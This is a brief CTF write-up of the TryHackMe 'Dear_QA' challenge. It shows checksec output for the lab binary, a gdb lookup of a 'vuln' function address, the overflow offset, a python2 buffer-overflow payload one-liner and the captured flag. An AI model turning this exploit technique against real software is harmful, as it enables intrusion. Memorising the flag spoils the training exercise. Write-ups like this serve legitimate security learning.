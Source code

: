 # Dear_QA 

> VOiD | Tuesday 08 February 2022 10:50:46 AM UTC

My IP : 
Target IP : 


## Checksec

```bash
checksec DearQA.DearQA 
[*] '/home/void/tryhackme/Dear_QA/DearQA.DearQA'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

```

## pwngdb

```bash
0x0000000000400686  vuln 	"\x86\x06\x40\x00\x00\x00\x00\x00"
cyclic -l jaaa
36

eip at 40


python2 -c 'print "A" * 40 + "\x86\x06\x40\x00\x00\x00\x00\x00"' > payload

$ cat flag.txt
THM{PWN_1S_V3RY_E4SY}

```
